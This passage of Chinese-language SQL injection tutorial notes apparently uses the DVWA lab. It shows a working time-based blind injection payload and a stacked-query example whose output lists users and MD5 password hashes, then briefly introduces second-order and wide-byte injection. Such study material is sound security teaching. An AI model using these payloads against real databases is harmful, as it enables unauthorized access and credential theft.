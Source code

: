 先判断字段值的长度为 32，这么长那看来密码是用 md5 加密，再用 ASCII 码方式破解花费的时间需要比较长



#### 时间盲注

界面返回只有返回 true（比如页面提交信息之后，只返回“感谢你的提交”）没有其他信息。

可以通过 `if(condition, true_execution, false_execution) 和 ` `sleep(second)` 函数，通过时间延迟来推断。

```sql
1' and if(ascii(substr(database(),1,1))=100,sleep(5),1);#
```

后续过程同布尔盲注。

### 堆叠查询注入

批量执行 SQL 语句

```sql
mysql> show databases;select user, password from users;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+----------------------------------+
5 rows in set (0.00 sec)
```

使用条件：为了防止堆叠注入，一些网站的 API、数据库引擎或者权限会做限制，一次只能执行一条 SQL 语句。比如 PHP 为了防止 SQL 注入，会调用 `mysqi_query()` 函数，只能执行一条语句。

### 二次注入

二次注入指数据库在存入数据时做了校验和处理，但是在取出数据时没有做校验和处理，导致的二次注入。

![](http://img.wukaipeng.com/2023/1010-085957-image-20231010085956378.png)

### 宽字节注入

🧠 概念
